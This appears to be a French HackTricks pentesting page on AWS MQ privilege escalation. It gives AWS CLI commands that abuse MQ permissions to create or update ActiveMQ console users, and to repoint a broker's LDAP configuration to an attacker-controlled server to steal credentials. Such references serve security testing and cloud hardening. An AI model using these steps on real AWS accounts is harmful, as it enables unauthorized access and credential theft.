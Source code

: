 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Pour plus d'informations sur MQ, consultez :

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Avec ces permissions, vous pouvez **créer un nouvel utilisateur dans un broker ActimeMQ** (cela ne fonctionne pas dans RabbitMQ) :
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impact potentiel :** Accéder à des informations sensibles en naviguant dans ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Avec ces autorisations, vous pouvez **créer un nouvel utilisateur dans un broker ActiveMQ** (cela ne fonctionne pas dans RabbitMQ) :
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Impact potentiel :** Accéder à des informations sensibles en naviguant à travers ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Si un courtier utilise **LDAP** pour l'autorisation avec **ActiveMQ**. Il est possible de **changer** la **configuration** du serveur LDAP utilisé pour **un contrôlé par l'attaquant**. De cette manière, l'attaquant pourra **voler tous les identifiants envoyés via LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Si vous pouviez d'une manière ou d'une autre trouver les identifiants originaux utilisés par ActiveMQ, vous pourriez effectuer un MitM, voler les identifiants, les utiliser sur le serveur d'origine et envoyer la réponse (peut-être qu'en réutilisant simplement les identifiants volés, vous pourriez faire cela).

**Impact potentiel :** Voler les identifiants ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
